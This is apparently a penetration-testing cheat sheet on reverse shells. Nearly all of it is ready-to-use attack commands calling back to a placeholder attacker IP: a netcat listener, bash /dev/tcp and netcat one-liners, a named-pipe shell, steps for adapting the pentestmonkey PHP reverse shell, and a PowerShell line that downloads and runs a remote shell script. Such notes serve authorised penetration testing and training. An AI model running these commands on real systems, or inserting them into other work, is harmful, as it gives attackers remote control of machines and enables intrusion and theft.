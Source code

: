 # Reverse shell

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

Most reverse shell are connecting to a netcat server, for instance, you could run one on port 4444.

```shell!
$ nc -lvnp 4444
```

Then, you will have to configure your reverse shells to connect back to it. We consider the hacker IP to be `x.y.z.t`.
</div><div>

If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) (2.5k ⭐).

There is a **script** called [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.4k ⭐) that is an automated and simplified interface to create reverse shell payloads.

There is a **script** called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create reverse shell payloads.
</div></div>

<hr class="sep-both">

## revshells.com

<div class="row row-cols-md-2"><div>

The best way to create reverse shells is to use the website [revshells](https://www.revshells.com/).

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-md-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

<div class="row row-cols-md-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-md-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-md-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) (0.7k ⭐).

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```
</div></div>